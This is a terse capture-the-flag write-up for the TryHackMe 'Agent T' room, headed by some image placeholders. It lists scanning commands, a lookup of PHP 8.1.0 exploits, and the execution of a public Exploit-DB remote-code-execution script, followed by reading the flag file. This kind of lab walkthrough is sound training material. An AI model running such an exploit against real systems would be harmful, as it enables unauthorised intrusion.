






# TryHackMe – Agent T Write-up

### Nmap Scan
nmap IP 

### Browser Access
firefox http://IP                                  
### HTTP Header Analysis
curl -I http://IP

### Vulnerability Research
searchsploit PHP 8.1.0

 locate 49933.py

cat /usr/share/exploitdb/exploits/php/webapps/49933.py

### Exploit Execution
python  /usr/share/exploitdb/exploits/php/webapps/49933.py

### Post-Exploitation Enumeration
ls -la /

cat /flag.txt
